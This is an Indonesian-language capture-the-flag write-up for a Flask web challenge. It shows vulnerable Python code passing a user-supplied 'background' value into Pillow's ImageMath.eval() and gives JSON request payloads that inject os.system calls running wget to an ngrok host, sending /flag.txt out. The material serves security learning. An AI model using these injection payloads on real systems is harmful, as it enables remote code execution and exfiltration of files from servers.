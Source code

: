 # Amidst Us
#easy #web #rce #flask


Pada `util.py` terdapat vulnerability pada `ImageMath.eval()` karena user dapat memberikan input ke dalam fungsi tersebut. Untuk vers pillow di bawah 9.0.0.  
![](attachments/Pasted%20image%2020220611145429.png)

Vulnerable code pada input `background`.
```python
def make_alpha(data):
	color = data.get('background', [255,255,255])

	try:
		dec_img = base64.b64decode(data.get('image').encode())

		image = Image.open(BytesIO(dec_img)).convert('RGBA')
		img_bands = [band.convert('F') for band in image.split()]

		alpha = ImageMath.eval(
			f'''float(
				max(
				max(
					max(
					difference1(red_band, {color[0]}),
					difference1(green_band, {color[1]})
					),
					difference1(blue_band, {color[2]})
				),
				max(
					max(
					difference2(red_band, {color[0]}),
					difference2(green_band, {color[1]})
					),
					difference2(blue_band, {color[2]})
				)
				)
			)''',
			difference1=lambda source, color: (source - color) / (255.0 - color),
			difference2=lambda source, color: (color - source) / color,
			red_band=img_bands[0],
			green_band=img_bands[1],
			blue_band=img_bands[2]
		)

		new_bands = [
			ImageMath.eval(
				'convert((image - color) / alpha + color, "L")',
				image=img_bands[i],
				color=color[i],
				alpha=alpha
			)
			for i in range(3)
		]

		new_bands.append(ImageMath.eval(
			'convert(alpha_band * alpha, "L")',
			alpha=alpha,
			alpha_band=img_bands[3]
		))

		new_image = Image.merge('RGBA', new_bands)
		background = Image.new('RGB', new_image.size, (0, 0, 0, 0))
		background.paste(new_image.convert('RGB'), mask=new_image)

		buffer = BytesIO()
		new_image.save(buffer, format='PNG')

		return {
			'image': f'data:image/png;base64,{base64.b64encode(buffer.getvalue()).decode()}'
		}, 200

	except Exception:
		return '', 400
```

Buat post request dengan menggunakan tombol upload yang berada pada bagian atas dari web.
```
```

Command execution pada Image.eval dalam library Pillow
```sh
"background":["exec('import os; os.system(\"wget https://sth.ngrok.io/`cat /flag.txt`\")')",255,255]}
```


Letakkan pada body dari request
```sh
{"image":"imagerandom-char","background":["exec('import os; os.system(\"wget https://sth.ngrok.io/$(cat /flag.txt | base64)\")')",255,255]}
```


## Intended Solution
sumber: https://www.hackthebox.com/blog/acnologia-portal-ca-ctf-2022-web-writeup



## Sumber
- https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901